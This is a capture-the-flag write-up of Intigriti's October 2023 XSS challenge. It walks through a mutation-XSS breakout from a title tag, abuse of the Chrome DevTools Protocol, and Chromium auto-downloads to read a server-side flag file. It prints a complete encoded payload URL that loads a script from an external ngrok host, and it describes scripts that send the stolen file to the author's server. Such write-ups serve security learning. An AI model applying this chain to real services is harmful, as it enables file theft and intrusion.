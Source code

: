 # Intigriti October 2023 XSS Challenge Writeup

## Introduction

Hey fellow hackers! 🎩💻 Ready for a wild ride into the world of XSS and hacking? In this [Intigriti's October XSS challenge](https://challenge-1023.intigriti.io/) writeup, we'll navigate through twists, turns, and a bunch of cat-related questions to reveal the precious flag! 🐱🚩 

<img alt='are you ready' src=images/are-you-ready.png style='height:300px; width:300px;'/> 

Let's dive into the solution!

## The Challenge Landscape (TL;DR) 

This challenge introduces the concept of mutation XSS. The participant must inject a script into the vulnerable endpoint, initiating a chain of events that breaks out of the `<title>` tag in the browser instance of Puppeteer. The entry point was this specific endpoint: [https://challenge-1023.intigriti.io/api/report?url=/](https://challenge-1023.intigriti.io/api/report?url=/), which allowed entering a custom-encoded payload to target the browser instance. With the absence of SOP and specific security flags in check, it was possible to make the browser download and navigate to a hosted script that triggered the extraction of the remote `flag.txt` file upon access.
## Navigating the Clues: Hints from the Intigriti Twitter

Now that you've stepped into the challenge landscape, let's shed light on the hints generously shared by Intigriti through their Twitter account.

### Hint 1: Title Parsing Discrepancy

The journey begins with a text-based nugget:

> "Have you noticed any difference in title parsing between client/server?"
 
Oh, the intrigue! This hint whispered about a clandestine affair between the client and server, specifically in title parsing.

![mxss](images/mxss.png)

**Decoding the Hint:**
- **Client vs Server Parsing:** The title parsing (`<%- title %>`) on the server in `header.ejs` rendered a dynamic HTML version when fed with broken input. Uncover the parsing discrepancy, and you're on the brink of mutation XSS ([mXSS](https://cure53.de/fp170.pdf)) enlightenment.
- **Key Takeaway:** Despite DOMPurify filtering malicious input, you could have sent valid but broken HTML to the server and made the recipient browser fix it. By breaking out of the `</title>` tag, it was possible to inject scripts into the page.

Now we can inject and control anything from the browser! Can't we?

### Hint 2: Chrome Developer Protocol (CDP) Link

They said, throwing us a link to the Chrome Developer Protocol (CDP):

> "Let's keep this one short and sweet..."
 
Sweet indeed! A seemingly innocent link that opened the door to a rabbit hole of possibilities!! 😱

![CDP screenshot](images/cdp.png)

**Decoding the Hint:**
- **CDP Exploration:** The link led us to the Chrome Developer Protocol, where understanding the APIs and how to communicate with a running Chrome seemed possible.
- **Key Takeaway:** The CDP was the key to unlocking the door. Here, you had to understand that the challenge structure made internal communication to the Chrome instance impossible, be it through WebSockets or devtools-on-devtools. A few useful things were the CDP's endpoints like `GET /json` (to check for port) and `PUT /json/new?${url}` (to open a file).

But what do we do with that information? Here comes the last hint!

### Hint 3: Meme - "Manual download" vs "Auto download"

> We'd like to apologize for the downtime, so please take this free hint 💜
> 
And then, a meme! A picture is worth a thousand words, they say. In the upper part, a man says "NO" to "Manual download," and in the bottom part, a resounding "YES" to "Auto download."

![Auto download meme](images/manual-vs-auto-download.png)

**Decoding the Hint:**
- **Auto-Download Revelation:** The meme hinted at the browser's ability to auto-download specific files upon opening. The trick? Serve malicious files with the header `Content-Disposition: attachment` to make the Chromium browser download them automatically regardless of the extension.
- **Key Takeaway:** Download a malicious HTML file, open it with `file://` protocol (using the second hint's discovery), and bingo! A fetch request from it could now breach the Docker instance's filesystem.

It's time to glue everything together!

## The Scripts

Get ready for the magic! Our scripts are the key to the victory flag.

### Entrypoint - [src/page_404.js](src/page_404.js)

The party starts with `page_404.js`, orchestrating the exploit dance. It cracks Puppeteer's port, initiating the auto-download of `fetcher.html` for local file extraction.

### Fetcher - [src/fetcher.html](src/fetcher.html)

Meet the fetcher, the hero fetching the flag and sending it to our local server. This script plays a crucial role in the exploit. `fetcher.html` grabs the flag and sends it to our server. A simple script with a grand mission!

### Server - [src/index.js](src/index.js)

Last but not least, our server script (`index.js`). It runs the show, coordinating the exploit and ensuring a smooth operation. Keep the server humming during the payload.

There you have it, the dynamic trio of scripts that sets up the payload! 🚀

## Decoding the Payload

Now, let's briefly dissect the exploit's payload that requires no user interaction. 

### One possible Payload

This payload targets the endpoint `https://challenge-1023.intigriti.io/api/report?url=` and utilizes two main parameters: `src` and `startPort`. 

```plaintext
https://challenge-1023.intigriti.io/api/report?url=/<svg><b id="<%2526%2523x2f%253btitle>foo<script src='https:%2526%2523x2f%253b%2526%2523x2f%253ba9b1-191-45-70-141.ngrok-free.app%2526%2523x2f%253b404.js'><%2526%2523x2f%253bscript>">?startPort=40000
```
Let's break it down:

- **Path and Parameters**: It begins with `<svg><b id="`, introducing a closing `</title>` tag. For the payload to work, it was needed to encode any slashes present in it by HTML encoding `/` -> `&#x2f;` -> URL encoding twice -> `%2526%2523x2f%253b`.
- **Injected Script**: The payload injects a script with a src attribute pointing to a remote server (https://a9b1-191-45-70-141.ngrok-free.app) hosting the 404.js script. This script is our entry point into the puppeteer exploit.
- **Query Parameter startPort**: The payload introduces the query parameter startPort=40000 (typically ranging between 45000 and 35000), serving as an initial estimation of the puppeteer port. The exploit involves an iterative process, maybe requiring multiple attempts to identify the correct port and extract the flag.

### Streamlining Port Extraction

I've crafted an iterative script to bring a touch of automation to the port extraction. Simply hit up `/solve`, and the script autonomously tests various ports to pinpoint the right one.

> 💡 Hint: Execute `npm i && npm start` after cloning the code to observe the script server in action.

For an in-depth dive into the magic behind automated port-guessing, check out the code documentation.

### The Flag

And as the grand finale, the flag awaits: **INTIGRITI{Pupp3t3eR_wIth0ut_S0P_LFI}**

## Conclusion 
Man, what a ride! We plunged deep into this challenge, messing with mutation XSS and puppeteer tricks. We threw in scripts, set off auto-downloads, and played around with the CDP. It's more than just hunting for a flag; it's been a crazy journey. Every clue, stumble, and "aha" moment brought us together. It's not just about the swag; it's the thrill, the joy of beating challenges and vibing with the Intigriti community. ❤️🚀

![Thank you](images/thank-you.png)

## References

1. [Intigriti October XSS Challenge](https://challenge-1023.intigriti.io/)
2. [mXSS Attacks](https://cure53.de/fp170.pdf)
2. [Chrome Developer Protocol](https://chromedevtools.github.io/devtools-protocol/)
3. [Intigriti Discord](https://discord.gg/intigriti)
4. [Intigriti Twitter](https://twitter.com/intigriti)
